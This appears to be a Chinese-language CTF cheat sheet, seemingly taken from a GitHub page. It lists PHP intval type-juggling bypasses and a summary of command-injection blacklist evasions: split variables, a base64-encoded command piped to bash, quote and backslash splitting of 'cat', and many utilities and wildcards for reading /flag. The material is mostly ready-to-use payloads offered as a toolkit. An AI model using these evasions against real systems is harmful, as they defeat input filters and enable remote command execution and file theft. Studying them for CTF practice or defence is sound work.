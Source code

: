 ```php
echo intval('42', 8);                 // 34
echo intval(array());                 // 0
echo intval(array('foo', 'bar'));     // 1
echo intval('ad123'); //0 可能返回0，取决最左字符

(intval($num) < 2020 && intval($num + 1) > 2021)  =>
    1.?num=0x2021
    2.?num=1e10 , '1e10'=1,  $a+1转数字 10000000001

intval($key)<1 && intval($key1=1)
    1、$key1=0.99999999999999999999（输入一大串9，不行继续输）
    2、$key1=0x1（16进制表示，intval(0x1)后得到为0）
```

## 各类绕过 RCE/Bypass 汇总

scripts/php_fuzz.py
[浅谈 CTF 中命令执行与绕过的小技巧](https://www.freebuf.com/articles/web/137923.html)

### 黑名单绕过

拼接
$ a=c;b=at;c=/flag;$a$b $c

base64 编码
$ `echo "Y2F0IC9mbGFn"|base64 -d`
$ echo "Y2F0IC9mbGFn"|base64 -d|bash

单引号、双引号
$ c""at /flag
$ c""at /fl""ag
\$ c""at /fl''ag

反斜线 \
\$ ca\t /fl\ag

### 文件读取

```sh
$ cat /flag
$ rev /flag
$ more /flag
$ tail /flag
$ less /flag
$ head /flag
$ tac /flag
$ sort /flag
$ nl /flag
$ hexdump /flag
$ cat /fl*
$ cat /fla?
```
